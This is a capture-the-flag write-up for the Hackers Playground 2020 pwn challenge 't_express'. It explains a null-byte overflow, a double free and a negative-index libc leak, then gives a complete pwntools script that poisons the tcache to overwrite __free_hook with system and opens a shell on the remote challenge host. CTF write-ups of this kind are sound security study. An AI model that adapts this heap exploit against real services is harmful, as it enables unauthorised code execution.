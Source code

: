 # t_express

I played Hackers Playground-2020 with team warlockrootx, and solved one pwn challenge. The challenges were well organized. 

There were three bugs.
1. When reading firstname and lastname. There is Null byte overflow into the `ticket_type` member of the structure.
2. When we free the pass. The program doesn't initialize the varialble which leads to double free.
3. When viewing the chunk. The `index` variable is signed int. And we can give negative index to leak libc from the libc pointers on bss.

exploit->
1. Negative index to leak the libc address.
2. Free the 0x41 sized chunk.
3. Use Null byte overflow. After we can change the size of the freed 0x41 size to 0x21.
4. Free the chunk again.
5. Tcache-posion. `__free_hook` -> `system`.
6. Shell
```
#### Exploit.
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
"""
typedef struct pass {
    char firstname[8];
    char lastname[8];
    long int ticket_type;
    int meal_type;
    int safari_pass;
    long int giftshop_coupon;
    long int ridecount;
}PASS;
"""
####Utils
def buyticket(choice,firstname,lastname):
    io.sendlineafter("choice: ","1")
    io.sendlineafter("(1/2):",str(choice))
    io.sendafter("First name: ",firstname)
    io.sendafter("Last name: ",lastname)

def viewticket(idx):
    io.sendlineafter("choice: ","2")
    io.sendafter("ticket: ",str(idx))
    io.recvuntil("|name |")
    firstname = io.recvn(0x9)
    lastname = io.recvn(0x8)
    return [firstname,lastname]

def useticket(idx,choice=1,ttype=1):
    io.sendlineafter("choice: ","3")
    io.sendafter("ticket: ",str(idx))
    if ttype==0:
        io.sendlineafter("(1/2/3/4): ",str(choice))

####Addr
leak_offset = 0x1ec723
free_hook = 0x1eeb28
system = 0x55410

####Exploit
#io = process("./t")#,env={"LD_PRELOAD":"./libc.so.6"})
io = remote("t-express.sstf.site",1337)
buyticket(1,"/bin/sh\x00","HKHKHKH") #0
buyticket(2,"HKHK","HKHK") #1
buyticket(1,"HKHK","HKHKHKHK")#2
buyticket(2,"HKHK","HKHK") #3
for i in range(3):
    useticket(1,choice=1,ttype=0)
useticket(1,choice=2,ttype=0)
useticket(1,choice=3,ttype=0)
for i in range(3):
    useticket(3,ttype=0)
useticket(3,choice=2,ttype=0)
useticket(3,choice=3,ttype=0)
libc_leak = u64(viewticket(-8)[1][0x2:0x8]+b"\x00\x00")
libc_base = libc_leak-leak_offset
print("Libc base: 0x%x"%libc_base)
for i in range(0x20):
    useticket(2,ttype=0)
useticket(3,choice=4,ttype=0)
buyticket(1,p64(libc_base+free_hook),"HKHK") #4
buyticket(2,"HKHK","HKHK") #5
buyticket(2,p64(libc_base+system),"\x00") #6
useticket(0)
io.interactive()
```
